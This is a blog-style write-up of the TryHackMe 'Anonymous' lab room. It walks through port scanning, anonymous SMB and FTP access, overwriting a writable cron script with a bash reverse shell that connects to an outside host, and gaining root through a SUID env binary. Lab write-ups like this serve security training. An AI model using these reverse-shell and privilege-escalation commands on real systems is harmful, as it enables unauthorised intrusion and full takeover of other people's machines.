 ```yaml
---
title: "Anonymous"
date: 2025-02-03 00:00:00 +0800
categories: [Writeups, TryHackMe]
tags: [tryhackme,thm,anonymous]
image:
  path: https://tryhackme-images.s3.amazonaws.com/room-icons/876a5185c429c9703e625cb48c39637b.png
  #alt: Anonymous room logo
---
```


## Introduction
---

Room: [Anonymous](https://tryhackme.com/r/room/anonymous)

Author: [Nameless0ne](https://tryhackme.com/r/p/Nameless0ne)

## System
---

```bash
10.10.166.189
anonymous
OS: Ubuntu

Users
namelessone
```

## Initial Access

---

### Enumeration

```bash
sudo nmap -sS -T4 -Pn 10.10.166.189
sudo nmap -sSV -A -p 21,22,139,445 -T4 -Pn 10.10.166.189
```

Nmap scan shows `4` open ports

![image.png](/assets/img/2025-02-03-thm-anonymous/image.png)

```bash
21 - vsftpd 2.0.8 or later
22 - OpenSSH 7.6p1
139 - Samba smbd 3.X - 4.X
445 - Samba smbd 4.7.6-Ubuntu
```

### SMB Enumeration

We can use Nmap to know what are the file shares available on the host

Resource: https://nmap.org/nsedoc/scripts/smb-enum-shares.html

```bash
nmap --script smb-enum-shares.nse -p445 10.10.166.189
```

![image.png](/assets/img/2025-02-03-thm-anonymous/image%201.png)

We see an interesting fileshare called `pics` . We can also see that Anonymous access is allowed for the share.

We can also use `SMBCLIENT` to enumerate file shares

```bash
smbclient -L \\\\10.10.166.189\\
```

![image.png](/assets/img/2025-02-03-thm-anonymous/image%202.png)

We can then access the file share using `SMBCLIENT` as well.

```bash
smbclient \\\\10.10.166.189\\pics -U anonymous --password anonymous
```

![image.png](/assets/img/2025-02-03-thm-anonymous/image%203.png)

We have two interesting files, `corgo2.jpg` and `puppos.jpeg`. Unfortunately, there are no interesting information on those files using `exiftool`. Now let’s move on enumerating FTP.

### FTP Enumeration

We know from the Nmap scan that Anonymous access is enabled. Let’s try to access the FTP server.

```bash
ftp anonymous@10.10.166.189
```

Upon accessing the FTP server, we found three interesting files. Notice that we have read/write/execute access to the `clean.sh` file.

![image.png](/assets/img/2025-02-03-thm-anonymous/image%204.png)

Let’s download those files

```bash
get clean.sh
get removed_files.log
get to_do.txt
```

![image.png](/assets/img/2025-02-03-thm-anonymous/image%205.png)

Now let’s check out the contents of the files

![image.png](/assets/img/2025-02-03-thm-anonymous/image%206.png)

![image.png](/assets/img/2025-02-03-thm-anonymous/image%207.png)

![image.png](/assets/img/2025-02-03-thm-anonymous/image%208.png)

After reviewing the contents of the script file, it seems it is used as a scheduled task to delete the contents of the `/tmp/` directory and if there are no files to delete it will store the message to a log file. 

Remember that we have a write access to the clean.sh file. We can take advantage of this to manipulate the file to allow us to run a reverse shell.

We can utilize the [Reverse Shell Cheat Sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp for the reverse shell payload.) from Internal All The Things by swisskyrepo.

```bash
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

Create a netcat listener

```bash
nc -nvlp 8484
```

Modify the `clean.sh` file 

![image.png](/assets/img/2025-02-03-thm-anonymous/image%209.png)

Upload `clean.sh` to the target and wait for it to run.  If successful, we should now have a shell.

![image.png](/assets/img/2025-02-03-thm-anonymous/image%2010.png)

Nice! we got a shell and a user access.

### User Flag

Now let’s locate the user flag.

![image.png](/assets/img/2025-02-03-thm-anonymous/image%2011.png)

## Privilege Escalation

---

### Enumeration

Upon doing some PrivEsc path enumeration, we have found was to PrivEsc via `SUID`

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

Searhcing through [GTFOBins](https://gtfobins.github.io/gtfobins/env/#suid) we found out that we can escalate via SUID using `/usr/bin/env`

![image.png](/assets/img/2025-02-03-thm-anonymous/image%2012.png)

![image.png](/assets/img/2025-02-03-thm-anonymous/image%2013.png)

### Escalation via SUID

```bash
env /bin/sh -p
```

![image.png](/assets/img/2025-02-03-thm-anonymous/image%2014.png)

Alright! we are now `root`.

### Root Flag

Now let’s get the root flag.

![image.png](/assets/img/2025-02-03-thm-anonymous/image%2015.png)


Thanks for reading my write-up, I hope you enjoyed it! 😊

![ThankYouThanksGIF.gif](/assets/img/2025-02-03-thm-anonymous/ThankYouThanksGIF.gif)